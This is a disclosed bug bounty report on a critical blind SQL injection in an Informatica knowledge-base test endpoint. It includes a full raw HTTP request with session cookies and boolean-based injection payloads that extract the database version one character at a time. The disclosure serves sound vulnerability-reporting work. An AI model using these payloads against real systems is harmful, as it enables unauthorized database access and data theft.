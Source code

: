 # [informatica.com] Blind SQL Injection

## Report Details
- **Report ID**: 117073
- **URL**: https://hackerone.com/reports/117073
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-02-18T02:55:55.660Z
- **Disclosed**: 2016-04-19T09:12:33.169Z

## Reporter
- **Username**: konqi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hi guys!

JSON POST parameter "docId" is vulnerable to Blind SQL Injection attack

PoC (Raw query)

POST /_vti_bin/RatingsCalculator/RatingsCalculator.asmx/CalculateRatings HTTP/1.1
User-Agent: Opera/9.80 (Windows NT 6.1; WOW64) Presto/2.12.388 Version/12.17
Host: kb-test.informatica.com
Accept-Language: ru-RU,ru;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate
Referer: https://kb-test.informatica.com/KBExternal/pages/infasearch.aspx?k=pew
Cookie: ASP.NET_SessionId=03khmmjpaxvcos45opn2kg55; BIGipServerkb-test-pool=2670002442.22811.0000; WebAnalyticsSessionId2=b600796d-cd0e-4797-9610-872c18063793; kbemail=; mkt_cookie=anonymous; __cdrop=.D1P9XM.; _ga=GA1.2.1961398489.1453319834; _mkto_trk=id:189-ZHZ-794&token:_mch-informatica.com-1452163097365-89988; s_vnum=1458351793680%26vn%3D1; gpv_p14=welcome%20page%3Awelcome; s_ppv=-%2C76%2C76%2C947; s_cc=true; gpv2=kb%3Aproddocsearch; s_nr=1455762795883-Repeat; s_invisit=true; s_sq=informatica-mysupport-dev%3D%2526pid%253Dhttps%25253A%25252F%25252Fkb.informatica.com%25252F_layouts%25252FProductDocumentation%25252FPage%25252FProductDocumentSearch.aspx%2526oid%253Dhttps%25253A%25252F%25252Fkb.informatica.com%25252F_layouts%25252FProductDocumentation%25252FPage%25252FProductDocumentSearch.aspx%252523%2526ot%253DA; wooTracker=vALSmwIXvuQp; AMCV_C0B11CFE5330AAFD0A490D45%40AdobeOrg=793872103%7CMCIDTS%7C16850%7CMCMID%7C49728577452301121918884624029572688913%7CMCAAMLH-1456367601%7C6%7CMCAAMB-1456367601%7CNRX38WO0n5BH8Th-nqAG_A%7CMCAID%7CNONE; mbox=check#true#1455762863|session#1455762802845-749291#1455764663
Connection: Keep-Alive
Content-Length: 117
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/json;charset=utf-8

{docId:"1 and (select substring(@@version,1,1))='M'", docTitle:'Getting an error while trying to import WSDL as...' }

for a TRUE query we get - {"d":"3"}
for a FALSE - {"d":""}
for a Syntax error - {"Message":"There was an error processing the request.","StackTrace":"","ExceptionType":""}

so using this blind technique we can extract the data from Database

examples

docId:"1 and (select substring(@@version,1,1))='M'" - true
docId:"1 and (select substring(@@version,2,1))='i'" - true
docId:"1 and (select substring(@@version,3,1))='c'" - true

docId:"1 and (select substring(@@version,22,1))='2'"
docId:"1 and (select substring(@@version,23,1))='0'"
docId:"1 and (select substring(@@version,24,1))='0'"
docId:"1 and (select substring(@@version,25,1))='8'"

and so on.. . So we have a MS SQL Server 2008

## Attachments
No attachments
